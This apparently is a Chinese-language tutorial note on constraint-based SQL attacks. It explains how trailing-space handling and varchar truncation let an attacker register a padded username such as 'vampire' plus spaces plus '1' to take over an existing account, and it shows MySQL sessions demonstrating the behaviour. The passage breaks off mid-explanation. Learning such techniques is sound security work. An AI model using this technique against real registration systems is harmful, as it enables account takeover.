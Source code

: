# sql注入
## 基于约束的sql攻击  
### 攻击手法
#### 说明
在SQL中执行字符串处理的时候，字符串末尾的空格会被删除，“abc   ”会被当作“abc”处理，对于绝大多数情况来说是成立的(where字句 insert语句)  
在所有的insert查询中，sql会根据varchar(n)来限制字符串的最大字节长度，如果大于n个字符，那么会截断字符串。  
#### 例子  
创建一个数据表users，其包含username和password列，并且字段的最大长度限制为25个字符。然后，我将向username字段插入“vampire”，向password字段插入“my_password”。  

	mysql> CREATE TABLE users (
	    ->   username varchar(25),
	    ->   password varchar(25)
	    -> );
	Query OK, 0 rows affected (0.09 sec)
	mysql> INSERT INTO users
	    -> VALUES('vampire', 'my_password');
	Query OK, 1 row affected (0.11 sec)
	mysql> SELECT * FROM users;
	+----------+-------------+
	| username | password    |
	+----------+-------------+
	| vampire  | my_password |
	+----------+-------------+
	1 row in set (0.00 sec)  

-------------------------
	mysql> SELECT * FROM users
	    -> WHERE username='vampire       ';
	+----------+-------------+
	| username | password    |
	+----------+-------------+
	| vampire  | my_password |
	+----------+-------------+
	1 row in set (0.00 sec)

现在我们假设一个存在漏洞的网站使用了前面提到的PHP代码来处理用户的注册及登录过程。为了侵入任意用户的帐户（在本例中为“vampire”），只需要使用用户名“vampire[许多空白符]1”和一个随机密码进行注册即可。对于选择的用户名，前25个字符应该只包含vampire和空白字符，这样做将有助于绕过检查特定用户名是否已存在的查询。

	mysql> SELECT * FROM users
	    -> WHERE username='vampire                   1';
	Empty set (0.00 sec)  
需要注意的是，在执行SELECT查询语句时，SQL是不会将字符串缩短为25个字符的。因此，这里将使用完整的字符串进行搜索，所以不会找到匹配的结果。接下来，当执行INSERT查询语句时，它只会插入前25个字符。
